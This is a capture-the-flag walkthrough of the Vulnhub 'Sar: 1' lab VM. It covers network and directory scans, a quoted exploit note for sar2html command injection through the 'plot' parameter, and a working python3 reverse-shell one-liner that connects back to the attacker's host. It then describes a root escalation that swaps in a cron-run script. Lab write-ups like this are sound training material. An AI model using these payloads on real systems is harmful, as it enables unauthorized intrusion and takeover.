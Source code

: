 
|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **Sar: 1**

Sar is an OSCP-Like VM with the intent of gaining experience in the world of penetration testing.  It is a Linux box and released on Feb 15, 2020.

Download : [Vulnhub - Sar: 1](https://www.vulnhub.com/entry/sar-1,425/)  
Format   : VirtualBox (OVA)  
DHCP     : Enabled  

Since the ```netdiscover``` is not working properly at my Kali 2020.1, I use ```nmap``` instead to get the IP address of the Sar:1 box which is on ```10.0.2.18```.  My Kali box is on ```10.0.2.24```.

```bash
samiux@kali:~$ nmap 10.0.2.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-09 22:17 HKT
Nmap scan report for 10.0.2.1
Host is up (0.00033s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
53/tcp open  domain

Nmap scan report for 10.0.2.2
Host is up (0.0011s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
631/tcp open  ipp

Nmap scan report for 10.0.2.18
Host is up (0.0012s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap scan report for 10.0.2.24
Host is up (0.0015s latency).
All 1000 scanned ports on 10.0.2.24 are closed

Nmap done: 256 IP addresses (4 hosts up) scanned in 3.37 seconds
```

Run ```nmap``` for the port scan on the Sar:1 box.

```bash
samiux@kali:~$ nmap -A -p- 10.0.2.18
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-09 22:19 HKT
Nmap scan report for 10.0.2.18
Host is up (0.00094s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.74 seconds
```

The scan shows that port 80 is opened only.  Thus, ```gobuster``` is used for scanning the directories of the box.

```bash
samiux@kali:~$ gobuster dir -u http://10.0.2.18 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.18
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt
[+] Timeout:        10s
===============================================================
2020/03/09 22:20:54 Starting gobuster
===============================================================
/index.html (Status: 200)
/robots.txt (Status: 200)
/phpinfo.php (Status: 200)
/server-status (Status: 403)
===============================================================
2020/03/09 22:26:48 Finished
===============================================================
```

Opens the ```Firefox``` to browse on the ```10.0.2.18```.  Then browses ```robots.txt``` also.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-001.png)  

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-002.png)  

The ```robots.txt``` shows ```sar2HTML```.  Browses to it and it shows ```sar2html``` application.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-003.png)  

Conducts a ```searchsploit``` on Kali box.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-004.png)  

The content of the result is :

```bash
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute
the command you entered. After command injection press "select # host" then your command's
output will appear bottom side of the scroll screen.
```

Clicks on ```NEW``` on the left hand side and it shows the url is ```http://10.0.2.18/sar2HTML/index.php?plot=NEW```.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-005.png)  

Tests it with ```;id``` and it can execute command ```id```.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-006.png)  

After several tries and errors, it is confirmed that ```python3``` and ```bash``` are installed on the box.  I try to use bash as reverse shell but failed.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-007.png)  

## **Reverse shell and user.txt**

Places the following python3 command on the url.

```bash
;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.24",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

And runs the listener at another terminal on Kali.

```bash
nc -lvp 4444
```

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-008.png)  

I find out that ```finally.sh``` and ```write.sh``` are at ```/var/www/html``` of the box.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-009.png)  

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-010.png)  

After a search on ```/home/love/Desktop```, I find the ```user.txt``` key.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-011.png)  

## **Reverse shell and root.txt**

Back to the ```finally.sh``` and ```write.sh```.  After a search, I find ```/etc/crontab``` which runs ```finally.sh``` on every 5 minutes.  However, I cannot see the file namely ```gateway``` at ```/tmp``` after 5 minutes or so.

After thinking for a while, I make up my mind to replace the ```write.sh``` with my own ```write.sh```.  I prepare the ```write.sh``` at ```/var/www/html``` of my Kali box and then starts the Apache2 web server.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-012.png)  

Download my own copy of ```write.sh``` to the box and makes it executable.  Prepares another listener at port 7777 on Kali.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-013.png)  

After 5 minutes or so, I get the reverse shell and the ```root.txt``` is on ```/root```.

![](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-014.png)  

Root is dancing!

## **Final thought**

This Capture The Flag (CTF) is based on a realistic vulnerability.  To get the ```root.txt``` is however a little bit tricky.  Anyway, it is a very good box to play with.  Recommended.

Samiux  
OSCE  OSCP  OSWP  
Mar 10, 2020, Hong Kong, China  

|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|
